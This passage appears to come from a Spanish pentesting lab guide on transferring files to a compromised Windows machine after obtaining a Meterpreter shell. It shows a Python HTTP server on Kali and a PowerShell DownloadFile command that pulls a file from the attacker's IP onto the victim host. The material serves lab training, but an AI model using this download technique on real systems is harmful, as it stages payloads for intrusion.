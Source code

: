 Ya obtendremos la `shell`, ahora vamos a poner en practica la transferencia de archivos por la `red`.

Antes para no tener el `prompt` de `meterpreter` vamos a utilizar la `shell` de `Windows` poniendo el comando `shell` y veremos esto:

```
meterpreter > shell
Process 5648 created.
Channel 1 created.
Microsoft Windows [Versi�n 10.0.19045.3803]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Users\empleado2\Desktop>
```

Ahora en `kali` vamos a crear un directorio donde vayan a estar los ficheros que queremos transferir:

```shell
mkdir transfer
cd transfer/
echo "texto de prueba" > test.txt
```

### Python Server

Ahora la primera forma de transferir un archivo seria utilizando `python` creando un servidor del mismo de forma temporal y pasarnoslo a traves de la `red`.

> Python2

```
python2 -m SimpleHTTPServer
```

> Python3

```
python3 -m http.server
```

Si seguidamente le indicamos un numero estaremos especificando el puerto en el que queremos abrir el servidor, pero si lo dejamos por defecto se abrira en el puerto `8000`, lo mismo para el `python2`.

Ahora teniendo el servidor abierto en la misma `red` que la maquina victima, si nos vamos al `WS02` con interfaz grafica, abriremos un `PowerShell` y ejecutaremos el siguiente comando:

```powershell
(New-Object System.NET.WebClient).DownloadFile('http://192.168.5.205:8000/test.txt', 'C:\Users\empleado2\Desktop\test.txt')
```

Veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>
